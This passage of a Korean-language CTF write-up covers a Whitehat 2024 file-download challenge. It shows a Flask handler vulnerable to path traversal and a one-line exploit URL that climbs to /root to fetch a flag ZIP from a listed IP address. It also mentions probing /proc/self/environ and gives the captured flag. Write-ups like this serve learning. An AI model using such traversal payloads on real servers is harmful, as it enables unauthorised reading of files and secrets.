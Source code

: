 ```python
def download():
    filename = request.args.get('filename')

    if not filename:
        abort(400)

    file_path = os.path.join('static', filename)
    
    if not os.path.isfile(file_path):
        return abort(404)
    
    return send_file(file_path, as_attachment=True)
    
if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```
디렉터리 리스팅 취약점이 존재하여 경로를 조작하며 flag 파일 찾기를 했다. `/proc/self/environ`, `/app`의 subdirectory들을 찾아보았는데도 없었다.    

팀원(@DevDori)분이 `/root` 디렉터리에 ZIP 파일 형태의 플래그를 찾았고, ZIP 파일 내부에 플래그가 있었다. (따라가느라 급급...)      
    
## Exploit Code        
```
http://13.125.226.130:10002/download?filename=../../../../../../../../root/flag-c368132241ec56040bdd.zip
```     
     
## Flag
whitehat2024{1330E4DE5DD8DF533D8D5C5388420249E71135B7}    
      
      
<a id="KTEC-admin-dashboard"></a>               
         
# KTEC-admin-dashboard     
     
굉장히 삽질을 많이한 문제 ...      
     
<img src="/assets/images/ctf/2024/whitehat/KTEC-admin-dashboard/admin_dashboard.jpg" width=700px>
